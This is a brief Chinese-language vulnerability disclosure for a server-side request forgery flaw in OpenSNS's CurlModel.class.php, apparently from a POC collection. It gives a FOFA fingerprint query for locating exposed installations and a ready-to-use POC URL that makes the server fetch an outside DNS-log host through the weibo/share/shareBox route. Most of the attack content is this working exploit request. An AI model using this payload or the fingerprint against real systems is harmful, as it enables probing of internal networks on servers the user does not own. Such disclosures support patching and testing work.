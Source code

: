 # OpenSNS CurlModel.class.php SSRF漏洞

## 漏洞描述

OpenSNS CurlModel.class.php文件中curl方法存在SSRF漏洞，通过漏洞攻击者可以探测内网信息

## 漏洞影响

```
OpenSNS
```

## FOFA

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154436896](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181544965.png)

存在漏洞的文件为 `Application/Admin/Model/CurlModel.class.php`

![image-20220518154502605](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181545686.png)

构造POC

```
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

![image-20220518154516760](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181545840.png)